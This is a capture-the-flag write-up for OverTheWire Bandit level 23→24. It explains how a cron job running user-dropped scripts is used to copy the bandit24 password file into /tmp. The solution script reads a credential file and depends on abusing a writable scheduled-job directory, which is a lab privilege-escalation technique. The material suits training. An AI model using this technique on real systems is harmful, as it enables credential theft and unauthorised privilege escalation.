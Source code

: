 # [Bandit Level 23 → Level 24](https://overthewire.org/wargames/bandit/bandit24.html)
## Level Goal

A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around...

## Solution

`cat /etc/cron.d/cronjob_bandit24` then `cat /usr/bin/cronjob_bandit24.sh`. You will see this script

```sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

It executes all scripts in `/var/spool/$myname/foo` at regular intervals from **cron** (`$myname` = **bandit24**) and delete them after 60 seconds

My idea is to write a script to get the password from `/etc/bandit_pass/bandit24` and then store it in a file

First, create a directory like [level 13](https://github.com/T3l3sc0p3/ctf-writeups/blob/master/OverTheWire/Bandit/level-13.md) and navigate to it. Then, create a [shell script](assets/level-24/script/shell.sh) using the command `vi shell.sh`

```sh
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/telescope/passwd.txt
```

Next, we give the permission to shell-script by using the command `chmod a+x shell.sh`

Finally, copy the shell script to `/var/spool/bandit24/foo` using the command `cp shell.sh /var/spool/bandit24/foo/.` and wait for a minute to receive the password
